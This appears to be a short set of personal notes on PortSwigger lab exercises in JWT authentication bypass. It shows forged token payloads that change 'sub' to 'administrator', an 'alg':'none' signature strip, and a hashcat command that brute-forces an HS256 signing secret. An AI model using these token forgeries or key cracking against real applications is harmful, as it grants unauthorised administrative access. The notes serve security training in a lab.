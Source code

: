 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```



```
Part 1 - Brute-force the secret key

hashcat -a 0 -m 16500 eyJraWQiOiIzOWY3NjFjZS0yMjAyLTQ2NTQtYTQ1OS0xY2U4ZGQ2ZDg3N2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MDk2NzYzNiwic3ViIjoid2llbmVyIn0.WSkgfT0RVI3UG8tkeGtHwZotjxNXfCl9gIlqFaNjthM ./jwt.secrets.list  : secret1


encode in base64 secret1 : c2VjcmV0MQ==

```